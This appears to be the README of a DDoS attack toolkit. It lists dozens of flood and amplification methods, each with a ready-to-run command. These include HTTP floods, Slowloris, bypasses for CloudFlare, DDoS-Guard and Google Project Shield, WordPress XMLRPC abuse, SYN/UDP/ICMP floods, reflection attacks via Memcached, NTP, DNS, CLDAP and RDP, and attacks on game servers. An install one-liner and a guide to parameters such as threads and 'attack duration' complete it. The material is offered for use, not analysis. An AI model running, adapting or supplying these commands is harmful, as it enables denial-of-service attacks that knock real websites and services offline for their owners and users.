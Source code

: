 ## Features And Methods

* 💣 Layer7

   * <img src="https://img.icons8.com/cotton/344/domain.png" width="16" height="16" alt="get"> GET | GET Flood
   ```bash
   python3 start.py GET https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn0.iconfinder.com/data/icons/database-storage-5/60/server__database__fire__burn__safety-512.png" width="16" height="16" alt="post"> POST | POST Flood
   ```bash
   python3 start.py POST https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://static-00.iconduck.com/assets.00/ovh-icon-2048x2048-l4c3izvg.png" width="16" height="16" alt="ovh"> OVH | Bypass OVH
   ```bash
   python3 start.py OVH https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn-icons-png.flaticon.com/512/1691/1691948.png" width="16" height="16" alt="ovh"> RHEX | Random HEX
   ```bash
   python3 start.py RHEX https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn-icons-png.flaticon.com/512/4337/4337972.png" width="16" height="16" alt="ovh"> STOMP | Bypass chk_captcha
   ```bash
   python3 start.py STOMP https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn.iconscout.com/icon/premium/png-256-thumb/cyber-bullying-2557797-2152371.png" width="16" height="16" alt="stress"> STRESS | Send HTTP Packet With High Byte
   ```bash
   python3 start.py STRESS https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://pbs.twimg.com/profile_images/1351562987224641544/IKb4q_yd_400x400.jpg" width="16" height="16" alt="dyn"> DYN | A New Method With Random SubDomain
   ```bash
   python3 start.py DYN https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn-icons-png.flaticon.com/512/6991/6991643.png" width="16" height="16" alt="downloader"> DOWNLOADER | A New Method of Reading data slowly
   ```bash
   python3 start.py DOWNLOADER https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn2.iconfinder.com/data/icons/poison-and-venom-fill/160/loris2-512.png" width="16" height="16" alt="slow"> SLOW | Slowloris Old Method of DDoS
   ```bash
   python3 start.py SLOW https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-how-work-icon.png" width="16" height="16" alt="head"> HEAD | HTTP HEAD Method
   ```bash
   python3 start.py HEAD https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://img.icons8.com/plasticine/2x/null-symbol.png" width="16" height="16" alt="null"> NULL | Null UserAgent and ...
   ```bash
   python3 start.py NULL https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://i.pinimg.com/originals/03/2e/7d/032e7d0755cd511c753bcb6035d44f68.png" width="16" height="16" alt="cookie"> COOKIE | Random Cookie PHP 'if (isset($_COOKIE))'
   ```bash
   python3 start.py COOKIE https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn0.iconfinder.com/data/icons/dicticons-files-folders/32/office_pps-512.png" width="16" height="16" alt="pps"> PPS | Only 'GET / HTTP/1.1\r\n\r\n'
   ```bash
   python3 start.py PPS https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn3.iconfinder.com/data/icons/internet-security-14/48/DDoS_website_webpage_bomb_virus_protection-512.png" width="16" height="16" alt="even"> EVEN | GET Method with more header
   ```bash
   python3 start.py EVEN https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://iili.io/HU9BC74.png" width="16" height="16" alt="googleshield"> GSB | Google Project Shield Bypass
   ```bash
   python3 start.py GSB https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://seeklogo.com/images/D/ddos-guard-logo-CFEFCA409C-seeklogo.com.png" width="16" height="16" alt="DDoSGuard"> DGB | DDoS Guard Bypass
   ```bash
   python3 start.py DGB https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://i.imgur.com/bGL8qfw.png" width="16" height="16" alt="ArvanCloud"> AVB | Arvan Cloud Bypass
   ```bash
   python3 start.py AVB https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://iili.io/HU9BC74.png" width="16" height="16" alt="Google bot"> BOT | Like Google bot
   ```bash
   python3 start.py BOT https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a8/Apache_HTTP_Server_Logo_%282016%29.svg/1000px-Apache_HTTP_Server_Logo_%282016%29.svg.png" width="16" height="16" alt="Apache Webserver"> APACHE | Apache Exploit
   ```bash
   python3 start.py APACHE https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://icon-library.com/images/icon-for-wordpress/icon-for-wordpress-16.jpg" width="16" height="16" alt="wordpress exploit"> XMLRPC | WP XMLRPC exploit (add /xmlrpc.php)
   ```bash
   python3 start.py XMLRPC https://example.com/xmlrpc.php 5 100 proxy.txt 64 120
   ```

   * <img src="https://techcrunch.com/wp-content/uploads/2019/06/J2LlHqT3qJl0bG9Alpgc-1-730x438.png?w=730" width="16" height="16" alt="CloudFlare"> CFB | CloudFlare Bypass
   ```bash
   python3 start.py CFB https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://techcrunch.com/wp-content/uploads/2019/06/J2LlHqT3qJl0bG9Alpgc-1-730x438.png?w=730" width="16" height="16" alt="CloudFlare UnderAttack Mode"> CFBUAM | CloudFlare Under Attack Mode Bypass
   ```bash
   python3 start.py CFBUAM https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="http://iclouddnsbypass.com/wp-content/uploads/2015/02/iCloudDNSBypassServer.ico" width="16" height="16" alt="bypass"> BYPASS | Bypass Normal AntiDDoS
   ```bash
   python3 start.py BYPASS https://example.com 5 100 proxy.txt 64 120
   ```

   * <img src="https://cdn-icons-png.flaticon.com/512/905/905568.png" width="16" height="16" alt="bypass"> BOMB | Bypass with codesenberg/bombardier
   ```bash
   python3 start.py BOMB https://example.com 5 100 proxy.txt 64 120
   ```

   * 🔪 KILLER | Run many threads to kill a target
   ```bash
   python3 start.py KILLER https://example.com 5 100 proxy.txt 64 120
   ```

   * 🧅 TOR | Bypass onion website
   ```bash
   python3 start.py TOR https://example.onion 5 100 proxy.txt 64 120
   ```

* 🧨 Layer4:
  * <img src="https://raw.githubusercontent.com/kgretzky/pwndrop/master/media/pwndrop-logo-512.png" width="16" height="16" alt="tcp"> TCP | TCP Flood Bypass
  ```bash
  python3 start.py TCP 1.1.1.1:80 100 120
  ```

  * <img src="https://styles.redditmedia.com/t5_2rxmiq/styles/profileIcon_snoob94cdb09-c26c-4c24-bd0c-66238623cc22-headshot.png" width="16" height="16" alt="udp"> UDP | UDP Flood Bypass
  ```bash
  python3 start.py UDP 1.1.1.1:80 100 120
  ```

  * <img src="https://cdn-icons-png.flaticon.com/512/1918/1918576.png" width="16" height="16" alt="syn"> SYN | SYN Flood
  ```bash
  python3 start.py SYN 1.1.1.1:80 100 120
  ```

  * <img src="https://cdn-icons-png.flaticon.com/512/1017/1017466.png" width="16" height="16" alt="cps"> CPS | Open and close connections with proxy
  ```bash
  python3 start.py CPS 1.1.1.1:80 100 120
  ```

  * <img src="https://icon-library.com/images/icon-ping/icon-ping-28.jpg" width="16" height="16" alt="icmp"> ICMP | Icmp echo request flood (Layer3)
  ```bash
  python3 start.py ICMP 1.1.1.1:80 100 120
  ```

  * <img src="https://s6.uupload.ir/files/1059643_g8hp.png" width="16" height="16" alt="connection"> CONNECTION | Open connection alive with proxy
  ```bash
  python3 start.py CONNECTION 1.1.1.1:80 100 120
  ```

  * <img src="https://ia803109.us.archive.org/27/items/source-engine-video-projects/source-engine-video-projects_itemimage.png" width="16" height="16" alt="vse"> VSE | Send Valve Source Engine Protocol
  ```bash
  python3 start.py VSE 1.1.1.1:80 100 120
  ```

  * <img src="https://mycrackfree.com/wp-content/uploads/2018/08/TeamSpeak-Server-9.png" width="16" height="16" alt="teamspeak 3"> TS3 | Send Teamspeak 3 Status Ping Protocol
  ```bash
  python3 start.py TS3 1.1.1.1:80 100 120
  ```

  * <img src="https://cdn2.downdetector.com/static/uploads/logo/75ef9fcabc1abea8fce0ebd0236a4132710fcb2e.png" width="16" height="16" alt="fivem"> FIVEM | Send FiveM Status Ping Protocol
  ```bash
  python3 start.py FIVEM 1.1.1.1:80 100 120
  ```

  * <img src="https://cdn.iconscout.com/icon/free/png-512/redis-4-1175103.png" width="16" height="16" alt="mem"> MEM | Memcached Amplification
  ```bash
  python3 start.py MEM 1.1.1.1:80 100 120 reflector.txt
  ```

  * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-attack-icon.png" width="16" height="16" alt="ntp"> NTP | NTP Amplification
  ```bash
  python3 start.py NTP 1.1.1.1:80 100 120 reflector.txt
  ```

  * <img src="https://cdn-icons-png.flaticon.com/512/4712/4712139.png" width="16" height="16" alt="mcbot"> MCBOT | Minecraft Bot Attack
  ```bash
  python3 start.py MCBOT 1.1.1.1:25565 100 120
  ```

  * <img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/minecraft_logo_icon_168974.png" width="16" height="16" alt="minecraft"> MINECRAFT | Minecraft Status Ping Protocol
  ```bash
  python3 start.py MINECRAFT 1.1.1.1:25565 100 120
  ```

  * <img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/minecraft_logo_icon_168974.png" width="16" height="16" alt="minecraft pe"> MCPE | Minecraft PE Status Ping Protocol
  ```bash
  python3 start.py MCPE 1.1.1.1:19132 100 120
  ```

  * <img src="https://cdn-icons-png.flaticon.com/512/2653/2653461.png" width="16" height="16" alt="dns"> DNS | DNS Amplification
  ```bash
  python3 start.py DNS 1.1.1.1:53 100 120 reflector.txt
  ```

  * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-attack-icon.png" width="16" height="16" alt="chargen"> CHAR | Chargen Amplification
  ```bash
  python3 start.py CHAR 1.1.1.1:19 100 120 reflector.txt
  ```

  * <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRct5OvjSCpUftyRMm3evgdPOa-f8LbwJFO-A&usqp=CAU" width="16" height="16" alt="cldap"> CLDAP | Cldap Amplification
  ```bash
  python3 start.py CLDAP 1.1.1.1:389 100 120 reflector.txt
  ```

  * <img src="https://help.apple.com/assets/6171BD2C588E52621824409D/6171BD2D588E5262182440A4/en_US/8b631353e070420f47530bf95f1a7fae.png" width="16" height="16" alt="ard"> ARD | Apple Remote Desktop Amplification
  ```bash
  python3 start.py ARD 1.1.1.1:3283 100 120 reflector.txt
  ```

  * <img src="https://www.tenforums.com/geek/gars/images/2/types/thumb__emote__esktop__onnection.png" width="16" height="16" alt="rdp"> RDP | Remote Desktop Protocol Amplification
  ```bash
  python3 start.py RDP 1.1.1.1:3389 100 120 reflector.txt
  ```

* ⚙️ Tools - Runs With `python3 start.py tools`
  * 🌟 CFIP | Find Real IP Address Of Websites Powered By Cloudflare
  * 🔪 DNS | Show DNS Records Of Sites
  * 📍 TSSRV | TeamSpeak SRV Resolver
  * ⚠ PING | PING Servers
  * 📌 CHECK | Check If Websites Status
  * 😎 DSTAT | That Shows Bytes Received, bytes Sent and their amount

* 🎩 Other
  * ❌ STOP | STOP All Attacks
  * 🌠 TOOLS | Console Tools
  * 👑 HELP | Show Usage Script

### Installation
```bash
apt -y update && apt -y install curl wget libcurl4 libssl-dev python3 python3-pip make cmake automake autoconf m4 build-essential git && git clone https://github.com/Ilyes009/PyRoxy.git && cd MH* && pip3 install -r requirements.txt
```

### Command Format Examples

1. Layer7 (HTTP/HTTPS) Attack:
```bash
python3 start.py <method> <url> <socks_type> <threads> <proxylist> <rpc> <duration> <debug=optional>
```

2. Layer4 (TCP/UDP) Attack:
```bash
python3 start.py <method> <ip:port> <threads> <duration>
```

3. Layer4 with Proxy:
```bash
python3 start.py <method> <ip:port> <threads> <duration> <socks_type> <proxylist>
```

4. Layer4 Amplification Attack:
```bash
python3 start.py <method> <ip:port> <threads> <duration> <reflector file>
```

### Parameters Explanation
- `method`: Attack method from the list above
- `url/ip:port`: Target URL or IP:PORT
- `socks_type`: Proxy type (4=SOCKS4, 5=SOCKS5, 1=HTTP)
- `threads`: Number of threads
- `proxylist`: File with proxies
- `rpc`: Rate per connection
- `duration`: Attack duration in seconds
- `reflector file`: File with amplification servers (only for amplification attacks)
